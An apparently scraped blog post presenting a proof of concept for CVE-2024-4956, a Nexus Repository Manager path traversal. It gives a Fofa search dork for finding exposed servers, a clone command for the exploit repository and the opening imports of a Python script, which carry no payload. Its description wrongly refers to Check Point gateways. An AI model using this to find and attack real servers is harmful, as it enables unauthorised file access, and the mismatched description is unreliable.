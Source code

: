 \--

[](/m/signin?actionUrl=https%3A%2F%2Fmedium.com%2F_%2Fbookmark%2Fp%2Ff24b1a595e0e&operation=register&redirect=https%3A%2F%2Fmedium.com%2F%40verylazytech%2Fpoc-
cve-2024-4956-unauthenticated-path-
traversal-f24b1a595e0e&source=-----f24b1a595e0e---------------------
bookmark_footer-----------)

Listen

Share

POC — CVE-2024–4956 — Nexus Repository Manager 3 Unauthenticated Path
Traversal

Potentially allowing an attacker to read certain information on Check Point
Security Gateways once connected to the internet and enabled with Remote
Access VPN or Mobile Access Software Blades. A security fix that mitigates
this vulnerability is available.

> Read about it —
> [CVE-2024–4956](https://nvd.nist.gov/vuln/detail/CVE-2024-4956)

 _Disclaimer: This Proof of Concept (POC) is made for educational and ethical
testing purposes only. Usage of this tool for attacking targets without prior
mutual consent is illegal. It is the end user’s responsibility to obey all
applicable local, state, and federal laws. Developers assume no liability and
are not responsible for any misuse or damage caused by this program._

# Finding Targets

To find potential targets, use Fofa (similar to Shodan.io):

  * Fofa Dork: `header="Server: Nexus/3.53.0-01 (OSS)"`

First, clone the repository:

    
    
    git clone https://github.com/verylazytech/CVE-2024-4956

Or copy code manually:

    
    
    import requests  
    import random  
    import argparse  
    from colorama import Fore, Style  
      
    green = Fore.GREEN  
    magenta = Fore.MAGENTA  
    cyan = Fore.CYAN  
    mixed = Fore.RED + Fore.BLUE  
    red = Fore.RED  
    blue = Fore.BLUE  
    yellow = Fore.YELLOW  
    white = Fore.WHITE  
    reset = Style.RESET_ALL  
    bold = Style.BRIGHT  
    colors = [green, cyan, blue]  
    random_color = random.choice(colors)  
      